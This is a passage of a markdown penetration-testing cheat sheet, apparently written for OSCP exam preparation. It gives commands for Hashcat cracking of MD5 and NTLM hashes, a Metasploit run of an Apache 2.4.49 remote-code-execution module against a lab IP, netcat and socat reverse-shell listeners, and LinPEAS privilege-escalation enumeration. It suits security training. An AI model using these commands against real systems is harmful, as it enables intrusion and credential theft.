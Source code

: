 ### Hashcat
GPU-accelerated password cracker.

```bash
# MD5 hash cracking
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# Windows NTLM hash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

## Exploitation Tools

### Metasploit Framework
Exploitation framework (limited use allowed in OSCP).

```bash
# Start Metasploit
msfconsole

# Search for exploits
search apache 2.4.49

# Use an exploit
use exploit/multi/http/apache_normalize_path_rce

# Set options
set RHOSTS 10.10.10.10
set LHOST 192.168.1.100

# Run exploit
exploit
```

### Reverse Shell Handlers

```bash
# Netcat listener
nc -lvnp 4444

# Socat listener (more stable)
socat TCP-LISTEN:4444,reuseaddr,fork STDOUT
```

## Post-Exploitation

### Privilege Escalation Scripts

**Linux:**
```bash
# LinPEAS
./linpeas.sh

# Linux Smart Enumeration
./lse.sh -l 1
```
